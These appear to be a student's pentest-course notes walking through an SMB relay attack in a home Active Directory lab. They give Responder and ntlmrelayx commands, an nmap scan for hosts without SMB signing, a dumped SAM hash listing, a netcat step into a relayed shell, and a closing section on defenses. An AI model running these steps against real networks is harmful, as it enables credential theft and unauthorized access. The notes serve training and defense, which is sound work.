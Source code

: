 #cybersecurity #hacking #penetration-testing 
#active-directory #smb 

# SMB Relay Attack

## SMB Relay Attacks Overview (Usefull in case of Strong password policy)

#### What is SMB Relay?

Instead of cracking hashes gathered with Responder, we can instead relay those hashes to specific machines and potentially gain access

#### Requirements

-   ﻿﻿SMB signing must be disabled on the target
-   ﻿﻿Relayed user credentials must be admin on machine

>Note: In this case Vegeta is admin on both the Planet Vegeta Machine and Earth Machine

1. Edit the responder configuration file in /etc/responder ```sudo gedit Responder.conf```
![](https://i.imgur.com/zMDNVcs.png)
2. Run Responder ```python Responder.py -| tun0 -dw```
3. Set up the relay ```python ntlmrelayx.py -tf targets.txt -smb2support```
4. An event occurs: point the Win10box at a machine but DNS fails, responder kicks in and relays creds to another machine
5. Credentials are relayed to another machine

>Vegeta is an admin on the Earth machine too so if his hash is relayed to the Earth Machine we should be able to get access to that machine as well

![](https://i.imgur.com/mfo883Z.png)

## Discovering Hosts with SMB Signing Disabled

Several ways to do this:
- Nessus
- Nmap
- Search github for smb checker

### NMAP Way

```bash
nmap --script=smb2-security-mode.nse -p445 192.168.2.0/24 -Pn
```

Output:
![](https://i.imgur.com/CXIZBIQ.png)

We can see the server (192.168.2.135) has signing required but the individual windows 10 machines do not:

![](https://i.imgur.com/vDnBc5f.png)

Create a ``targets.txt`` file with ``192.168.2.137`` or all machines infected IPs 

## SMB Relay Attack Part 1

Need to turn off SMB and HTTP:

![](https://i.imgur.com/zMDNVcs.png)

Run responder

```bash
repsonder -I eth0 -dw
```

![](https://i.imgur.com/EAPpNEU.png)

```bash
ntlmrelayx.py -tf targets.txt -smb2support
```

Point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box)
It responds with an error but dumps the SAM hash because Vegeta is admin on the Win10-Earth Machine as well

![](https://i.imgur.com/UqCRwgH.png)

SAM Hash:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:bcd858e95a29844cea73b5bc3bf76117:::
Goku:1003:aad3b435b51404eeaad3b435b51404ee:403f92cda3c8066381327fba611a6a9e:::
```

## SMB Relay Attack Part 2

Get an interactive shell from the SMB relay attack:

```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
```

Again I point my Win10-Vegeta Machine at my Attack Machine (Kali Attack Box). This is the "event" where DNS fails and the SMB Relay begins.

![](https://i.imgur.com/6v6Ptex.png)

```bash
nc 127.0.0.1 11000
```

![](https://i.imgur.com/WW36jQA.png)


Rewatch the end of https://academy.tcm-sec.com/courses/1152300/lectures/24780884


## SMB Relay Attack Defenses : Mitigation Strategies

### Enable SMB Signing on all devices
Pro: Completely stops the attack
Con: Can cause performance issues with file copies
### Disable NTLM authentication on network
Pro: Completely stops the attack
Con: If Kerberos stops working, Windows defaults back to NTLM
### Account tiering:
Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
Con: Enforcing the policy may be difficult
### Local admin restriction:
Pro: Can prevent a lot of lateral movement
Con: Potential increase in the amount of service desk tickets
